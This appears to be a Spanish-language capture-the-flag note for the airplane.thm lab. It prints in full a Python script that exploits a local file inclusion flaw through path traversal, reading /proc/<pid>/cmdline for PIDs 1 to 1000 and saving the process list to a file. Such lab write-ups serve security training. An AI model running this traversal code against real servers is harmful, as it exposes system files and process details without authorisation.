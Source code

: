 El script `LFI.py` es un programa en Python diseñado para realizar un ataque de Local File Inclusion (LFI) en un servidor web. El propósito del script es leer los nombres de procesos del sistema de archivos `/proc` de un servidor Unix y guardarlos en un archivo de texto.

```Python
import requests
import string

base_url = "http://airplane.thm:8000/?page="
file_path_template = "../../../../proc/"
output_file = "process.txt"

def fetch_proc_entry(entry):
    url = base_url + file_path_template + str(entry) + "/cmdline"
    try:
        response = requests.get(url)
        # Verificar si la solicitud fue exitosa y no devuelve "Page not found"
        if response.status_code == 200 and "Page not found" not in response.text:
            return response.text
        else:
            return None
    except requests.RequestException as e:
        print(f"Error fetching entry {entry}: {e}")
        return None

def filter_non_printable(text):
    # Filtrar caracteres no imprimibles
    return ''.join(filter(lambda x: x in string.printable, text))

# Abrir el archivo de salida en modo escritura
with open(output_file, "w") as file:
    # Iterar sobre los posibles IDs de proceso (del 1 al 1000)
    for i in range(1, 1001):
        proc_name = fetch_proc_entry(i)
        if proc_name:
            clean_proc_name = filter_non_printable(proc_name).strip()
            if clean_proc_name:
                file.write(f"Entry {i}: {clean_proc_name}\n")
                print(f"Entry {i}: {clean_proc_name}")

# Informar al usuario que los nombres de proceso se han guardado correctamente
print(f"Process names have been saved to {output_file}")

```

## Resultado
![[Pasted image 20240613085057.png]]
![[Pasted image 20240613085133.png]]

